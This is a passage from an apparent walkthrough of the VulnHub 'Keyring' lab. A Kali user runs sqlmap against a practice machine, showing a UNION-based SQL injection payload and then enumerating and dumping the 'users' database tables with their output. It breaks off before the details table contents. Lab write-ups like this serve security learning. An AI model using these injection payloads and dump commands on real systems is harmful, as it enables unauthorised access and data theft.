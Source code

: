 ```shellscript
    Title: Generic UNION query (NULL) - 1 column
    Payload: user=abdou' UNION ALL SELECT CONCAT(0x7171707071,0x5476664e75485355584a53574e64435246495642746d45724d485477796c6d6578794666736c4475,0x717a767a71)-- ----
[11:39:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
# ... (truncated sqlmap output) ...
```

`sqlmap` successfully identified both time-based blind and UNION query SQL injection vulnerabilities, confirming the backend DBMS as MySQL.

Next, I enumerated the databases:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ sqlmap -r request --batch --level=2 --risk=2 --threads=5 --dbs
# ... (truncated sqlmap output) ...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
# ... (truncated sqlmap output) ...
```

The `users` database seemed promising. I then enumerated tables within the `users` database:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ sqlmap -r request --batch --level=2 --risk=2 --threads=5 --tables -D users
# ... (truncated sqlmap output) ...
Database: users
[2 tables]
+---------+
| log     |
| details |
+---------+
# ... (truncated sqlmap output) ...
```

The `details` table was a strong candidate for containing user credentials. Finally, I dumped the data from both `log` and `details` tables in the `users` database.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ sqlmap -r request --batch --level=2 --risk=2 --threads=5 --dump -D users -T log,details
# ... (truncated sqlmap output) ...
Database: users
Table: log
[4 entries]
+--------+---------------------+---------------------------------------+
| name   | date_time           | page_visited                          |
+--------+---------------------+---------------------------------------+
| admin  | 2021-06-10 18:58:32 | https://github.com/cyberbot75/keyring |
| abdou  | 2025-07-19 22:01:14 | home                                  |
| abdou  | 2025-07-19 22:01:18 | home                                  |
| abdou  | 2025-07-19 22:01:39 | about                                 |
+--------+---------------------+---------------------------------------+
[11:42:22] [INFO] table 'users.`log`' dumped to CSV file '/home/zengla/.local/share/sqlmap/output/192.168.1.37/dump/users/log.csv'
[11:42:22] [INFO] fetching columns for table 'details' in database 'users'
[11:42:22] [INFO] fetching entries for table 'details' in database 'users'
Database: users
Table: details
```